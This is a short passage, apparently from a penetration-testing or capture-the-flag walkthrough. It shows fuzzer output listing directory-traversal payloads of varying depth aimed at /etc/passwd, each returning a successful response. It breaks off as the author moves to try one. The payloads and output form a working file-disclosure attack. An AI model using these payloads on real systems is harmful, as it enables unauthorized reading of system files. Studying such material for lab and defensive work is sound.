 ```
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 325ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 323ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 328ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 338ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 370ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 413ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 419ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 418ms]
../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 417ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 433ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 162ms]
../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 462ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 504ms]
../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 550ms]
../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 603ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 831ms]
```

We can test any of this payloads, let's try:
